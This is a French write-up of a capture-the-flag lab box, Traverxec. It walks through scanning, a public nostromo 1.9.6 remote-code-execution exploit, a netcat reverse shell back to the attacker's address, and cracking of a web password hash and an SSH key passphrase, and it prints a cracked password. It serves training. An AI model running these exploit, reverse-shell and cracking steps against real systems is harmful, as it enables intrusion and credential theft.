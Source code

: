 ![Pic1](../img/traverxec1.PNG?raw=true) </br>

# Présentation
Traverxec est une box Linux dont l'adresse IP est 10.10.10.165.</br>

Compétences mises en oeuvre :</br>
* Enumération des ports et services d'une machine distante.


</br>

# Enumération initiale

Nous commençons l'énumération par les ports et services disponibles avec nmap :
```bash
$ nmap -T4 -A 10.10.10.165
```
![Pic2](../img/traverxec2.PNG?raw=true) </br>
Deux ports sont ouverts :</br>
* 22 pour un OpenSSH en version 7.9
* 80 pour un serveur web nostromo en version 1.9.6
</br>

Nous allons faire une énumération des fichiers et dossiers présents sur le site web avec dirsearch :  
```bash
$ dirsearch -w wordlist -e "php,txt" -f -t 100 -x 400,403,404,501 -u http://10.10.10.165/
```
![Pic3](../img/traverxec3.PNG?raw=true) </br>

# Obtenir un accès utilisateur
Nous avons vu que le serveur web en écoute était un nostromo 1.9.6, ce qui n'est pas commun, nous allons voir s'il existe un exploit pour 
cette version avec searchsploit :
```bash
$ searchsploit nostromo
```
![Pic4](../img/traverxec4.PNG?raw=true) </br>

Nous allons chercher la RCE qui correspond à la version de nostromo et l'executer :
```bash
$ locate 47837.py
$ cp /usr/share/exploitdb/exploits/multiple/remote/47837.py ./
$ cat 47837.py
```
![Pic5](../img/traverxec5.PNG?raw=true) </br>
Pour l'utiliser, il faut mettre en argumant l'ip de la box + son port + la commande à exécuter, donc nous testons :
```bash
$ python 47837.py 10.10.10.165 80 hostname
```
![Pic6](../img/traverxec6.PNG?raw=true) </br>
Nous allons alors utiliser le netcat de la box pour obtenir un shell :
```bash
# Nous mettons un listener sur notre machine :
$ nc -lvnp 4567
# Toujours sur notre machine mais sur un autre shell :
$ python 47837.py 10.10.10.165 80 "nc 10.10.14.6 4567 -c bash"
```
![Pic7](../img/traverxec7.PNG?raw=true) </br>
Nous avons un shell en tant que www-data, nous allons faire de l'énumération de base :
```bash
$ python -c "import pty;pty.spawn('/bin/bash')"
$ find / -type d -perm 0755 2>/dev/null
```
![Pic8](../img/traverxec8.PNG?raw=true) </br>
Un résultat (non-exhaustif) plutot dense mais nous pouvons voir que nous avons accès a plusieurs fichiers de Nostromo, y compris son fichier de configuration nhttpd.conf :
```bash
$ cat /var/nostromo/conf/nhttpd.conf
$ cat /var/nostromo/conf/.htpasswd
```
![Pic9](../img/traverxec9.PNG?raw=true) </br>
Le fichier nhttpd.conf va lire le mot de passe de l'utilisateur david dans le fichier .htpasswd, grâce à lui nous avons son hash, que nous crackons avec john :
```bash
$ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
![Pic10](../img/traverxec10.PNG?raw=true) </br>
Nous avons donc un utilisateur et son mot de passe : david:Nowonly4me</br>
Malheureusement, ce mot de passe n'est que pour le serveur web Nostromo. Néanmoins, dans le fichier nhttpd.conf, il y a un répertoire public_www de spécifié. Nous allons
donc commencer l'énumération par là-bas :
```bash
$ ls -aril /home/david/public_www
```
![Pic11](../img/traverxec11.PNG?raw=true) </br>
Nous voyons un dossier protected-file-area qui contient une archive que nous allons dézipper :
```bash
$ ls protected-file-area
$ cd protected-file-area
$ cp backup-ssh-identity-files.tgz /tmp/
$ tar zxvf /tmp/backup-ssh-identity-files.tgz
```
![Pic12](../img/traverxec12.PNG?raw=true) </br>
Des fichiers concernant ssh, nous pouvons alors récupérer id_rsa pour se connecter à distance sur la machine en ssh, il va falloir cracker la passphrase avec john :
```bash
$ ssh2john.py id_rsa > passphrase_hash
$ john passphrase_hash --wordlist=/usr/share/wordlists/rockyou.txt
```
![Pic13](../img/traverxec13.PNG?raw=true) </br>

